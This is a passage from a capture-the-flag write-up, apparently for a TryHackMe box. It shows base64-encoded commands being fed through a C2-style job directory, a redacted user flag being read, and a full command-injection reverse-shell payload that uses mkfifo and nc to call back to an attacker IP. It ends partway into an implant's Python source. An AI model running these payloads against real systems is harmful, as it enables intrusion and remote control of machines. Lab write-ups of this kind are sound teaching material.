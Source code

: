`echo '{"job_id": 0, "cmd": "ls"}' | base64 > get-job/ImxhdGVzdCI=`

returns

`{"job_id": 0, "cmd": "ls", "success": true, "result": "[products.py](http://products.py/)\nuser.txt\n"}`

lets grab that flag right now!

`echo '{"job_id": 0, "cmd": "cat user.txt"}' | base64 > get-job/ImxhdGVzdCI=`

`{"job_id": 0, "cmd": "cat user.txt", "success": true, "result": "THM{[redacted]}\n"}`

# Initial Shell

Some of the more popular shells don’t seem to work on this box but eventualll we find one that does.  

```json
{"job_id": 0, "cmd": "127.0.0.1 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.74.177 4444 >/tmp/f"}
```

`python3 -c 'import pty;pty.spawn("/bin/bash");'`

There is a Python script in our home directory. 

```python
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='[redacted]'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')
```

We enumerate the database locally using the credentuals here but find nothing interesting. 

We also have a hidden directory `.implant` off of our home. 

```python
import base64
import binascii
import json
import platform
import subprocess
import time
from datetime import datetime
from pathlib import Path

import requests

def systeminfo():
    return {
        'os': platform.system(),
        'hostname': platform.node(),
    }

class Commander:
    def __init__(self, host, log_dir, port=81):
        self.log_dir = Path(log_dir)
```